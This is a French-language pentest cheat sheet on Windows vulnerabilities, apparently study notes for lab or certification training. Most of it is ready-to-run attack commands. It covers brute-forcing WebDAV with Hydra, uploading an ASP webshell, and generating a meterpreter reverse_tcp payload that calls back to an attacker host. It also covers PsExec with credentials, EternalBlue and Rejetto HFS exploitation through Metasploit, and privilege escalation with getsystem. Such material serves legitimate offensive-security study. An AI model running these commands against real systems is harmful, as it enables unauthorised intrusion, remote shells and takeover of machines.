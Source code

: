 # 🪟 Vulnérabilités Windows

[← Retour à la table des matières](../README.md)

## Types d'attaques Windows

### 🎯 Catégories principales
- **Information Disclosure** : Fuite d'informations sensibles
- **Buffer Overflow** : Débordement de tampon
- **Remote Code Execution** : Exécution de code à distance
- **Privilege Escalation** : Élévation de privilèges
- **Denial of Service** : Déni de service

## Exploitation de services Windows

### IIS WebDAV
```bash
# Scan initial
nmap -sV -sC targetIP
nmap -sV -p 80 --script=http-enum targetIP

# Bruteforce WebDAV si authentification requise → [📖 Guide Hydra](../06-tools/hydra.md)
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt targetIP http-get /webdav/

# Test des capacités WebDAV
davtest -auth user:password -url http://targetIP/webdav

# Upload de webshell
cadaver http://targetIP/webdav
# Dans cadaver :
put /usr/share/webshells/asp/webshell.asp
```

### Meterpreter via WebDAV → [📖 Guide MSFVenom](../06-tools/msfvenom.md)
```bash
# Génération du payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=KALI_IP LPORT=1234 -f asp > shell.asp

# Upload via cadaver
cadaver http://targetIP/webdav
put /path/to/shell.asp

# Handler Metasploit
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST KALI_IP
set LPORT 1234
run
```

### Module MSF automatique WebDAV
```bash
use exploit/windows/iis/iis_webdav_upload_asp
set HTTPUSERNAME username
set HTTPPASSWORD password
set RHOSTS targetIP
set PATH webdav/metasploit.asp
run
```

## SMB avec PsExec
```bash
# Nécessite des credentials légitimes (user/password ou hash)

# Test de login SMB
use auxiliary/scanner/smb/smb_login
set RHOSTS targetIP
set SMBUser administrator
set SMBPass password
run

# PsExec avec Impacket
psexec.py administrator@targetIP cmd.exe

# PsExec avec Metasploit
use exploit/windows/smb/psexec
set RHOSTS targetIP
set SMBUser administrator
set SMBPass password
run
```

## MS17-010 EternalBlue

### Détection
```bash
# Nmap script
nmap -sV -p 445 --script=smb-vuln-ms17-010 targetIP

# Metasploit scanner
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS targetIP
run
```

### Exploitation
```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS targetIP
run
```

## Exemple d'exploitation HFS

### Recherche d'exploits → [📖 Guide Searchsploit](../06-tools/searchsploit.md)
```bash
# Recherche avec searchsploit
searchsploit hfs

# Résultats typiques :
# HFS (HTTP File Server) 2.3.x - Remote Command Execution
# Rejetto HTTP File Server (HFS) - Remote Command Execution (Metasploit)
```

### Exploitation avec Metasploit
```bash
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS targetIP
run
# Obtention d'un meterpreter
```

### Post-exploitation
```bash
# Migration vers explorer.exe
ps -S explorer.exe
migrate PID_FOUND

# Tentative d'élévation de privilèges
getsystem

# Si getsystem échoue, vérifier les groupes
shell
net localgroup administrators
```